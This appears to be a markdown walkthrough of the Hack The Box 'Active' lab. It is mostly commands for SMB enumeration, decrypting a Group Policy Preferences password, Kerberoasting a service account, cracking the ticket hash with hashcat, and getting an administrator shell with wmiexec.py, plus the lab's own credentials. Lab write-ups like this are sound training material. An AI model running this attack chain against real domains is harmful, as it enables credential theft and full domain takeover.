


# ACTIVE
--------------------------------------------------------------------
## Topics will be covered
- SMB enumeration techniques
- Group Policy Preferences enumeration and exploitation
- Identification and exploitation of Kerberoastable accounts

##  Enumeration and Exploiting tools:
```bash
    - Nmap
        ○ nmap -Pn -sV -sC  10.10.10.100
    - SMB
        ○ smbclient -L //10.10.10.100
        ○ smbmap -H 10.10.10.100
        ○ smbclient //10.10.10.100/Replication
    - Foothold (First successful breach/Limited access/Starting point)
        ○ Group Policy Preferences
    - Authenticated Enumeration
        ○ smbmap -d active.htb -u SVC_TGS -p GPPstillStandingStrong2k18 -H 10.10.10.100
        ○ smbclient -U SVC_TGS%GPPstillStandingStrong2k18 //10.10.10.100/Users
    - Privilege Escalation
        ○ ldapsearch -x -H 'ldap://10.10.10.100' -D 'SVC_TGS' -w 'GPPstillStandingStrong2k18' -b "dc=active,dc=htb" -s sub "(&(objectCategory=person)(objectClass=user)(! (useraccountcontrol:1.2.840.113556.1.4.803:=2)))" samaccountname | grep sAMAccountName
        ○ GetADUsers.py -all active.htb/svc_tgs -dc-ip 10.10.10.100
    - Kerberoasting
        ○ ldapsearch -x -H 'ldap://10.10.10.100' -D 'SVC_TGS' -w 'GPPstillStandingStrong2k18' -b "dc=active,dc=htb" -s sub "(&(objectCategory=person)(objectClass=user)(! (useraccountcontrol:1.2.840.113556.1.4.803:=2))(serviceprincipalname=*/*))" serviceprincipalname | grep -B 1 servicePrincipalName
        ○ GetUserSPNs.py active.htb/svc_tgs -dc-ip 10.10.10.100
        ○ GetUserSPNs.py active.htb/svc_tgs -dc-ip 10.10.10.100 -request
    - Cracking of Kerberos TGS Hash 
        ○ hashcat -m 13100 hash /usr/share/wordlists/rockyou.txt --force --potfile-disable 
    - Shell as Primary Domain Admin 
wmiexec.py active.htb/administrator:Ticketmaster1968@10.10.10.100
```
----------------------------------------------------------------------------------------------------------------------------------
### Namp


##### Understanding the SMB share ports 

| **Port**          | **Protocol**                                   |**Service**          | **Description**                                   |
|---------------|-------------------------------------------|---------------|-------------------------------------------|
|445         | SMB (Server Message Block)                | smb           | File sharing and printer sharing over a network |
|139         | NetBIOS Session Service                    | netbios-ssn  | Provides session services for NetBIOS over TCP/IP |
|135         | Remote Procedure Call (RPC)                | msrpc         | Used for remote procedure calls and DCOM services |
|137         | NetBIOS Name Service                      | netbios-ns    | Provides name services for NetBIOS over TCP/IP |
|138         | NetBIOS Datagram Service                  | netbios-dgm   | Provides datagram services for NetBIOS over UDP |

- Understanding the LDAP ports
| Port          | Protocol                                   |Service          | Description                                   |
|389         | Lightweight Directory Access Protocol (LDAP) | ldap          | Used for accessing and maintaining distributed directory information services |
|636         | LDAP over SSL (LDAPS)                      | ldaps         | Secure version of LDAP using SSL/TLS encryption |
|3268        | Global Catalog (LDAP)                      | gc            | Provides a read-only replica of the Active Directory database for faster searches |
|3269        | Global Catalog over SSL (LDAPS)            | gc-ssl        | Secure version of the Global Catalog using SSL/TLS encryption |

- Microsoft Active Directory-Specific Ports
| Port          | Protocol                                   |Service          | Description                                   |
|--------------|-------------------------------------------|---------------|-------------------------------------------|
|88           | Kerberos                                   | kerberos      | Authentication protocol used in Active Directory | 
|445         | SMB (Server Message Block)                | smb           | File sharing and printer sharing over a network |
|464         | Kerberos Password Change                   | kpasswd       | Used for changing Kerberos passwords |
|593         | Remote Procedure Call (RPC) over HTTP      | rpc-http      | Used for remote procedure calls over HTTP |
|636         | LDAP over SSL (LDAPS)                      | ldaps         | Secure version of LDAP using SSL/TLS encryption |
|3268        | Global Catalog (LDAP)                      | gc            | Provides a read-only replica of the Active Directory database for faster searches |
|3269        | Global Catalog over SSL (LDAPS)            | gc-ssl        | Secure version of the Global Catalog using SSL/TLS encryption |

- Additional LDAP-Related Ports
| Port          | Protocol                                   |Service          | Description                                   |
|--------------|-------------------------------------------|---------------|-------------------------------------------|
|689         | LDAP over SSL (LDAPS)                      | ldaps         | Secure version of LDAP using SSL/TLS encryption |
|1758      | LDAP over SSL (LDAPS)                      | ldaps         | Secure version of LDAP using SSL/TLS encryption |
|2003      | LDAP over SSL (LDAPS)                      | ldaps         | Secure version of LDAP using SSL/TLS encryption |
|2004      | LDAP over SSL (LDAPS)                      | ldaps         | Secure version of LDAP using SSL/TLS encryption |
|3535      | LDAP over SSL (LDAPS)                      | ldaps         | Secure version of LDAP using SSL/TLS encryption |
|3536      | LDAP over SSL (LDAPS)                      | ldaps         | Secure version of LDAP using SSL/TLS encryption |

- Ports Used in LDAP Attacks
- When performing penetration testing or security assessments, these ports are critical:

|Attack Type | Ports Used    |
|--------------|-------------------------------------------|
|LDAP Passwords Spraying| 389, 636 |
|LDAP Anonymous Binds | 389|
|LDAP Injection | 389, 636|
|Kerberoasting (via LDAP) | 88, 389|
|AD CS (Certificate Services) Attacks| 389, 636, 88|

- Now lets come back to the nmap results and found smb ports are availible(Port 445 is open)
- But guest user is not available but smb signing is happening


- So lets try smbclient with available shares and login with anonymous this time
```bash
smbclient -L //10.129.89.194 or \\active.htb
```

- Since anonymous login is allowed, we can view a list of available shares. 
- Let's now use smbmap to identify which of these shares are accessible with anonymous credentials.

- Lets login with anonymous to replication share, and there I can find the active.htb folder and then there are subfolder in it as follows

- To do Multifolder search at the same time in smd we can use the command 
```bash
Inside the SMB />RECURSE ON (enables recursive mode for directory operations, meaning subsequent commands will process files and subdirectories within the current directory.)
               />PROMPT OFF (disables interactive prompts when performing batch operations (like downloading/uploading multiple files))
              />mget *	(Auto-downloads all files)
             />mput *	(Auto-uploads all)
     />del *.tmp	(Deletes without asking)
```

- Since the files are donloaded to kali, now lets try to open the each folder and search.
- After opening the Group.xml file we can see below


```bash
username :SVC_TGS
cPassword: edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
```
- Note:Group Policy Preferences 
- Group Policy Preferences (GPP) was introduced in Windows Server 2008, it allowed administrators to modify users and groups across their network. 
- The defined password was AES-256 encrypted and stored in Groups.xml . 
- However, at some point in 2012, Microsoft published the AES key on MSDN,
- meaning that passwords set using GPP are now able to crack and considered low-hanging fruit.

- For cracking the  AES-256 encrypted  - we will use gpp-decrypt tool
```bash
gpp-decrypt "key"
```
- I don’t have this tool installed in kali so downloaded it  using : sudo apt install gpp-decrypt

- Now lets try to map the files that are accessible for SVC_TGS and then we will login



- After searching the directory of SVC_TGS user we found the user.txt in his desktop folder and downloaded


- Note: UserAccountControl 
- stores settings for each user account (like "Is the account disabled?" or "Does the user need a password?").
- Each setting is represented by a number code (e.g., 2 = disabled account).

```bash
UserAccountControl=2 ===> Fetches all active users ignoring disabled accounts.

-s sub: Searches all subdirectories (entire AD structure)
Filter                                                                  : ("(&(objectCategory=person)(objectClass=user)(!(useraccountcontrol:1.2.840.113556.1.4.803:=2)))"):
Finds user accounts                                                     : (objectCategory=person, objectClass=user)
Excludes disabled accounts                                              :  (!(useraccountcontrol:=2)).
Requests only the sAMAccountName (username) field                       : samaccountname
Filters output to show only usernames                                   :| grep sAMAccountName 
```

```bash
GetADUsers.py	:  A Python script from Impacket that extracts AD user information.
-all	                              : Retrieves all user accounts (including disabled ones).
```


- Kerbrosting---> is basically Request a TGS Ticket 
                  The attacker requests a Ticket Granting Service (TGS) ticket for the service (no admin rights needed).
                  The TGS is encrypted with the service account’s NTLM hash.
             Extract the TGS Hash
          The attacker exports the ticket in John-the-Ripper or Hashcat format.

- With the new ldap search filter of serviceprincipalname will search for the possibility of users that can send a TGS 
```bash 
ldapsearch -x -H 'ldap://10.129.89.194' -D 'SVC_TGS' -w 'GPPstillStandingStrong2k18' -b "dc=active,dc=htb" -s sub "(&(objectCategory=person)(objectClass=user)(! (useraccountcontrol:1.2.840.113556.1.4.803:=2))(serviceprincipalname=*/*))" serviceprincipalname | grep -B 1 servicePrincipalName
```
- 
In the previous command we got the administrator is available as active user. since we can see the serviceprincipleName is active on port 445.
we can make a service request now.

- Lets reconform with the tool called GetUserSPNs.py  and check weather the same result is happening or not.
```bash
GetUserSPNs.py active.htb/svc_tgs -dc-ip 10.129.89.194
```

- Since it is conforming the same results.
- so now we can make a request to DC for a service request possibility.

- Now save the ntlm hash into a file and try john or hashcat to decrypt the hash as below
```bash
hashcat -m 13100 kerberoast.hash /usr/share/wordlists/rockyou.txt --force --potfile-disable
```

- Finally got some credentials (password ) for adminstrator.
- Lets try login with one of the impack tool called wmiexec.py
```bash
wmiexec.py active.htb/administrator:Ticketmaster1968@10.129.89.194
```
- We have tried login using evil-winrm but it is not working, so we are going with impackts wmiexex.py

